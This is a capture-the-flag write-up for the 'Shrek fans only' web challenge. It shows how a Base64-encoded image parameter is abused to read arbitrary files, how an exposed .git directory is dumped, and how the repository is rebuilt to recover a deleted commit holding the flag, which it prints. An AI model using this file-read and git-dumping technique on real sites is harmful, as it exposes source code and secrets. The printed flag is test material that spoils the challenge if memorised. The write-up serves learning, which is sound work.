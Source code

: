 # Shrek fans only writeup

## Description

### My Story
A simple web page with a single image. too empty!!

But the url of image is somehow interesting (`http://3.91.17.218/getimg.php?img=aW1nMS5qcGc%3D`).
The `img` parameter value is like Base64 encoded value and it is. I tested by Javascript:
```
atob(decodeURIComponent('aW1nMS5qcGc%3D'))
"img1.jpg"
```

I wrote this simple Bash script, [getimg.sh](./getimg.sh), and tried different pathes and finally found `.git` directory files.
```
./getimg.sh ".git/HEAD"
```

OK! I should try to get `.git` directory data and find the flag in the past commits of repository.

### Exploit Time
I had to write a script that would get all parts of `.git` directory, but I didn't know the structure of this directory. I searched and found [this repository](https://github.com/arthaud/git-dumper) and read some parts of [git-dumper.py](https://github.com/arthaud/git-dumper/blob/master/git-dumper.py) and did:
* mkdir git (I made this diretory to be the parent of `.git` directory)
* I wrote [my-dumper.py](./my-dumper.py) to get important files of `.git` directory.

I have these files now:
```
.git/
├── COMMIT_EDITMSG
├── config
├── description
├── HEAD
├── hooks
│   ├── applypatch-msg.sample
│   ├── commit-msg.sample
│   ├── post-commit.sample
│   ├── post-receive.sample
│   ├── post-update.sample
│   ├── pre-applypatch.sample
│   ├── pre-commit.sample
│   ├── prepare-commit-msg.sample
│   ├── pre-push.sample
│   ├── pre-rebase.sample
│   ├── pre-receive.sample
│   └── update.sample
├── index
├── info
│   └── exclude
├── logs
│   ├── HEAD
│   └── refs
│       ├── heads
│       │   └── master
│       └── remotes
│           └── origin
│               └── master
├── objects
│   └── info
└── refs
    ├── heads
    │   └── master
    └── remotes
        └── origin
            └── master
```
There should be some object files under `objects` direcotry that I don't know the names. So I tried to find out the SHA1s all over `.git` directory and used [getobject.sh script](./getobject.sh) to download and put them in the correct path.
```
$ cat .git/logs/HEAD
0000000000000000000000000000000000000000 759be945739b04b63a09e7c02d51567501ead033 Shrek <shrek@shrek.com> 1583366532 +0000	commit (initial): initial commit
759be945739b04b63a09e7c02d51567501ead033 976b625888ae0d9ee9543f025254f71e10b7bcf8 Shrek <shrek@shrek.com> 1583366704 +0000	commit: remove flag
976b625888ae0d9ee9543f025254f71e10b7bcf8 d421c6aa97e8b8a60d330336ec1e829c8ffd7199 Shrek <shrek@shrek.com> 1583367714 +0000	commit: added more stuff
d421c6aa97e8b8a60d330336ec1e829c8ffd7199 759be945739b04b63a09e7c02d51567501ead033 Shrek <shrek@shrek.com> 1583367723 +0000	checkout: moving from master to 759be945739b04b63a09e7c02d51567501ead033
759be945739b04b63a09e7c02d51567501ead033 d421c6aa97e8b8a60d330336ec1e829c8ffd7199 Shrek <shrek@shrek.com> 1583367740 +0000	checkout: moving from 759be945739b04b63a09e7c02d51567501ead033 to master

$ git checkout .
error: unable to read sha1 file of getimg.php (c9566ff84d2e1ae3339bc1e6303d6d3340b5789f)
error: unable to read sha1 file of img1.jpg (0e8104f51db8f9ee08f0966656a3c2307e6cde5c)
error: unable to read sha1 file of index.php (5ab449745b9c25fb0b56c5fbab8d0c986541233e)
Updated 3 paths from the index

$ git fsck --full
broken link from  commit 976b625888ae0d9ee9543f025254f71e10b7bcf8
              to    tree 2f74a95c3a29776d84041f360e64d6e6b2edc7bd
broken link from  commit 759be945739b04b63a09e7c02d51567501ead033
              to    tree aeeea4cfa5afa4dcb70e1d6109790377e7bcec4d
broken link from  commit d421c6aa97e8b8a60d330336ec1e829c8ffd7199
              to    tree e5f40adbab45316c0307505386c3e8f113279b95
missing tree e5f40adbab45316c0307505386c3e8f113279b95
missing tree aeeea4cfa5afa4dcb70e1d6109790377e7bcec4d
missing tree 2f74a95c3a29776d84041f360e64d6e6b2edc7bd
```

I use `git cherry-pick` command to get pre-'remove flag' files.
```
$ git reflog
d421c6a (HEAD -> master, origin/master) HEAD@{0}: checkout: moving from 759be945739b04b63a09e7c02d51567501ead033 to master
759be94 HEAD@{1}: checkout: moving from master to 759be945739b04b63a09e7c02d51567501ead033
d421c6a (HEAD -> master, origin/master) HEAD@{2}: commit: added more stuff
976b625 HEAD@{3}: commit: remove flag
759be94 HEAD@{4}: commit (initial): initial commit

$ git cherry-pick 759be94
```

and after a conflict I saw `index.php` file.
```
$ cat index.php
<!DOCTYPE HTML>
<html>
<head>
<title>Shrek Fanclub</title>
</head>
<body>
<h1>What are you doing in my swamp?</h1>
<img src="imgproxy.php?img=img1.jpg">
<<<<<<< HEAD
<div>There used to be something here but Donkey won't leave me alone<div>
=======
<div>utflag{honey_i_shrunk_the_kids_HxSvO3jgkj}</div>
>>>>>>> 759be94... initial commit
</body>
</html>
```
:sunglasses: You Can See The Conflict!

### Flag
`utflag{honey_i_shrunk_the_kids_HxSvO3jgkj}`
